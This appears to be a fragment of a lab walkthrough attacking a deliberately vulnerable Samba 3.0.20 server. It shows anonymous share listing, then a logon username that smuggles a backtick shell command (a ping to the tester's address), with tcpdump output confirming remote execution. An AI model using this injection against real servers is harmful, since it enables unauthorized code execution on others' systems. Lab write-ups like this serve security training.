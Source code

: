 ```bash
searchsploit samba 3.0.20
```

```bash
smbclient -L 10.129.211.206 -N --option="client min protocol=NT1"
```

```bash
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

Now Listen on interface tun0

```
tcpdump -i tun0 icmp -n
```

logon it is used to login into smb

```bash
smbclient //10.129.211.206/tmp -N --option="client min protocol=NT1"
```
```bash
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "/=`nohup ping -c 1 10.10.14.75`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> 
```

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:29:17.989844 IP 10.129.211.206 > 10.10.14.75: ICMP echo request, id 1816, seq 1, length 64
01:29:17.989870 IP 10.10.14.75 > 10.129.211.206: ICMP echo reply, id 1816, seq 1, length 64
```
